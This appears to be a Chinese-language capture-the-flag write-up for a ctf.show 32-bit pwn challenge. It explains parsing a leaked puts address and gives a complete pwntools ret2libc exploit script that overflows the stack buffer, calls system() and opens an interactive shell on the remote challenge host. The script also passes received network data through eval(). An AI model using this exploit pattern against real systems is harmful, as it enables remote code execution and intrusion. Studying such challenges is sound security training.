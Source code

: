 

puts发现格式是这样的

```
b'0xf7e0d360\nfflush 0xf7e0b500\nread: 0xf7e8b620\nwrite: 0xf7e8b6f0\ngift: 0x804b028\n\nStart your show time: \n'
```

我们只需要 0xf7e0d360这部分即可

```python
puts_addr = p.recvuntil("\n", drop = True)
```

但需要注意 'bytes' object cannot be interpreted as an integer



所以要改成：eval是返回一个表达式的值

```python
puts_addr = eval(p.recvuntil("\n", drop = True))
```



exp：

因为main函数里面，puts了puts函数的地址，所以就不用像之前那样两次payload，第一次payload找出puts在内存中的地址

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28187

p = remote(ip,port)
elf = ELF('./pwn')

userful_addr = 0x804B028

offset = b'a'* (0x9C + 0x04)

p.recvuntil("puts: ")
puts_addr = eval(p.recvuntil("\n", drop = True))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

payload_exp = offset
payload_exp += p32(system_addr)
payload_exp += p32(0)
payload_exp += p32(userful_addr)

p.recvuntil(b'Start your show time: ')

p.sendline(payload_exp)

p.interactive()
```
